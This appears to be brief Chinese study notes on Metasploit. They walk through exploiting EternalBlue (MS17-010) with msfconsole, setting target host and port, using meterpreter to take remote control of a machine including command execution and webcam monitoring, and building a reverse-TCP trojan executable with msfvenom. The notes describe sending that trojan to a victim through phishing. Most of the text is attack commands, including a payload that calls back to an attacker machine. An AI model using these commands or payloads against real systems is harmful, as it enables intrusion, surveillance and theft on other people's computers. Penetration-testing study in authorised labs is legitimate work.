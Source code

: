 ## metasploit

安全漏洞利用和测试的工具

永恒之蓝漏洞：勒索病毒

命令

```
msfconsole
search ms17_010
  方案一 ：use exploit/windows/smb
  方案二： use 0
  show options  //看到模块所需要配置的东西   require后面为必选项 
```

payload 攻击载荷  ----> 攻击效果  攻击完要什么效果

端口

```
set RHOSTS 目标ip地址  //更改配置项
set lport 数目
run   成功  前提是要有漏洞，没有漏洞不能成功
```

meterpreter   进入其他人的电脑后进行远程控制，命令执行，摄像头监控

```
shell 
```

msfvenom 木马病毒，去钓鱼他，让其执行，

```
msfvenom -p windows/x64/meterpreter/reverse_tcp（pa） lhost=kali的地址  lport=（随意指定） -f exe -o(输出，起名字) demo.exe
```

